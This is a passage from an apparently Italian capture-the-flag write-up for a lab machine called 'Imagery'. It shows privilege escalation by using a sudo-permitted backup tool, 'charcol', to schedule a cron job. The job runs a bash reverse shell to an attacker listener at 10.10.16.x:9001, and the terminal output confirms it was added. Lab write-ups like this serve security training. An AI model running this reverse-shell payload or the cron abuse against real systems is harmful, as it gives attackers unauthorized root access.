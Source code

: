Si pianifica il job basandosi sull'orario della macchina vittima.

```bash

mark@Imagery:~$ timedatectl 
               Local time: Tue 2025-09-30 00:05:49 UTC
           Universal time: Tue 2025-09-30 00:05:49 UTC
                 RTC time: Tue 2025-09-30 00:05:47
                Time zone: Etc/UTC (UTC, +0000)
System clock synchronized: no
              NTP service: active
          RTC in local TZ: no

```

Di seguito il payload per programmare un job per le ore 00:10 che eseguira' una reverse shell.

```text

auto add --schedule "10 0 * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1'" --name "exploit"

```

Si lancia un listener sulla porta 9001 sulla macchina Kali e si definisce il job in **charcol**.

```bash

mark@Imagery:~$ sudo /usr/local/bin/charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                     
                                                                     
                                                                     
Charcol The Backup Suit - Development edition 1.0.0

[2025-09-30 00:09:12] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol> auto add --schedule "10 0 * * *" --command "/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1'" --name "exploit"
[2025-09-30 00:09:15] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-09-30 00:09:19] [INFO] System password verified successfully.
[2025-09-30 00:09:19] [INFO] Auto job 'exploit' (ID: 4892251b-6f7a-4d01-bfd8-fe525d397b76) added successfully. The job will run according to schedule.
[2025-09-30 00:09:19] [INFO] Cron line added: 10 0 * * * CHARCOL_NON_INTERACTIVE=true /bin/bash -c 'bash -i >& /dev/tcp/10.10.16.x/9001 0>&1'

```
